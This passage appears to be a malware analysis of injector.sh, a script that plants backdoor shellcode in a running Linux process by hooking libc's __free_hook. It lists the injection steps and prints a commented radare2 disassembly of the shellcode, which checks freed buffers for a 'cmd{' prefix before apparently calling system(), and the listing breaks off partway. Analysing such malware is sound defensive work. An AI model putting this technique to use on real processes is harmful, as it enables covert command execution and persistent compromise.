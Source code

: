 ## Analyze main functionality of the Shellscript injector.sh
Full details can be taken from the refactored script above. What does it basically come down to?
1. The script is called with one parameter (PID of target process to inject backdoor shellcode into)
2. It parses the virtual memory mapping (/proc/$pid/maps) of the target process for the loaded libc library
3. The virtual addresses (VA) of the libc functions __free_hook(), system(), free() and malloc_usable_size() are calculated for the target process (these have to be dynamically resolved, due to ASLR etc.)
4. The virtual memory map is parsed for the end of an executable region in the loaded libc (to put code into)
5. The VA of the named functions are put into placeholders inside the shellcode
6. The updated shellcode is written to the executable memory region (step 4, *injection*)
7. The VA of the libc function __free_hook() is patched with the VA of the injected shellcode (*hooking* __free_hook(), so to say)

The functions __free_hook() and free() are used to free memory, that previously has been dynamically allocated during program runtime. This way, whenever such allocated memory is freed in the target process, the execution of the shellcode is triggered.
But what does the shellcode do?

## Disassembly of the (unpatched) Shellcode
*Note: The output of radare2 has been edited with additional comments for better readability.*

```
$ r2 -a x86 -b 64 -qc pd shellcode_unpatched.bin
            0x00000000      48b841414141.  movabs rax, 0x4141414141414141 ; VA of malloc_usable_size()
            0x0000000a      4155           push r13
            0x0000000c      49bd43434343.  movabs r13, 0x4343434343434343 ; VA of system()
            0x00000016      4154           push r12
            0x00000018      4989fc         mov r12, rdi ; rdi = first function param by linux 64 bit calling convention
            0x0000001b      55             push rbp
            0x0000001c      53             push rbx
            0x0000001d      4c89e3         mov rbx, r12 ; rbx points to first function param (which is void *ptr)
            0x00000020      52             push rdx
            0x00000021      ffd0           call rax ; malloc_usable_size()
            0x00000023      4889c5         mov rbp, rax
            0x00000026      48b844444444.  movabs rax, 0x4444444444444444 ; original VA of __free_hook()
            0x00000030      48c700000000.  mov qword [rax], 0
        ┌─> 0x00000037      4883fd05       cmp rbp, 5 ; return value of malloc_usable_size()
       ┌──< 0x0000003b      7661           jbe 0x9e ; skip shellcode magic if return value <= 5
       │╎   0x0000003d      803b63         cmp byte [rbx], 0x63 ; 'c'
      ┌───< 0x00000040      7554           jne 0x96 ; skip shellcode magic if *ptr[0] != 'c'
      ││╎   0x00000042      807b016d       cmp byte [rbx + 1], 0x6d ; 'm'
     ┌────< 0x00000046      754e           jne 0x96 ; skip shellcode magic if *ptr[1] != 'm'
     │││╎   0x00000048      807b0264       cmp byte [rbx + 2], 0x64 ; 'd'
    ┌─────< 0x0000004c      7548           jne 0x96 ; skip shellcode magic if *ptr[2] != 'd'
    ││││╎   0x0000004e      807b037b       cmp byte [rbx + 3], 0x7b ; '{
   ┌──────< 0x00000052      7542           jne 0x96 ; skip shellcode magic if *ptr[3] != '{'
   │││││╎   0x00000054      c60300         mov byte [rbx], 0
   │││││╎   0x00000057      488d7b04       lea rdi, [rbx + 4] ; let rdi point to *ptr[4], first char after '{'
   │││││╎   0x0000005b      488d55fc       lea rdx, [rbp - 4]
   │││││╎   0x0000005f      4889f8         mov rax, rdi
  ┌───────> 0x00000062      8a08           mov cl, byte [rax]
  ╎│││││╎   0x00000064      4889c3         mov rbx, rax
  ╎│││││╎   0x00000067      4889d5         mov rbp, rdx
  ╎│││││╎   0x0000006a      488d4001       lea rax, [rax + 1]
```